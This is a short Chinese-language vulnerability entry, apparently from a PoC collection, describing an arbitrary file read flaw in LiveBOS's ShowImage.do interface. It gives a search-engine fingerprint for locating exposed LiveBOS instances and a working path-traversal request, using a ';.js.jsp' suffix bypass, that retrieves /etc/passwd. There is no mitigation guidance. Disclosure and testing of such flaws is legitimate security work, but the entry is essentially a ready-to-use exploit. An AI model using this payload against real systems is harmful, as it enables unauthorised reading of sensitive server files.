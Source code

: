 # LiveBOS ShowImage.do 任意文件读取漏洞

## 漏洞描述

LiveBOS ShowImage.do 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

<a-checkbox checked>LiveBOS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="LiveBOS-框架"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1692167542101-f3880815-0b7c-4042-ba05-367aba446765.png)

验证POC

```plain
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1692167639036-b19192bb-12d1-4dff-bda7-02d6fa610224.png)